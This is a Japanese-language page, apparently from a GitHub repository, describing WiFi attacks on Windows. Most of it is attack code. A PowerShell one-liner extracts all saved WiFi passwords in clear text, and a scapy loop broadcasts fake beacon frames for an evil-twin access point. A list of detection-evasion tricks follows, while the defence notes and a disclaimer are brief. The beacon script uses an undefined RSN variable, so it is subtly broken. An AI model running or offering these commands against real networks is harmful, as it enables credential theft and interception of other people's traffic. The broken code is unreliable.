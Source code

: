 # Windows WiFi Attack Techniques

**対応OS**: Windows

## 概要
Windows環境での無線ネットワークに対する攻撃手法について解説します。

## 基本的な手法

### ネットワークプロファイルの抽出
```powershell
# 保存済みWiFiプロファイルの一覧表示
netsh wlan show profiles

# 特定のプロファイルの詳細表示（パスワードを含む）
netsh wlan show profile name="SSID" key=clear

# PowerShellを使用したプロファイル抽出
(netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)} | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }}
```

### Evil Twinアタック
```python
from scapy.all import *

def create_beacon(ssid, mac):
    dot11 = Dot11(type=0, subtype=8, addr1="ff:ff:ff:ff:ff:ff",
                  addr2=mac, addr3=mac)
    beacon = Dot11Beacon(cap="ESS+privacy")
    essid = Dot11Elt(ID="SSID", info=ssid, len=len(ssid))
    rsn = Dot11Elt(ID="RSNinfo", info=RSN)
    frame = RadioTap()/dot11/beacon/essid/rsn
    return frame

# ビーコンフレームの送信
while True:
    sendp(create_beacon("Target_SSID", "00:11:22:33:44:55"),
          iface="wlan0", inter=0.1)
```

## 検知回避テクニック
- MACアドレスのスプーフィング
- 送信電力の調整
- チャンネルホッピング
- フレーム改変

## 防御策
- WPA3の使用
- 強力なパスワードポリシー
- ネットワーク監視
- クライアント側の保護

## 検知方法
- 不正なアクセスポイントの検出
- 異常なトラフィックパターン
- デバイスの監視
- ログ分析

## 注意事項
- このテクニックは教育目的でのみ使用してください
- 実環境での使用は法的責任を伴う可能性があります
- すべてのテストは許可された環境でのみ行ってください 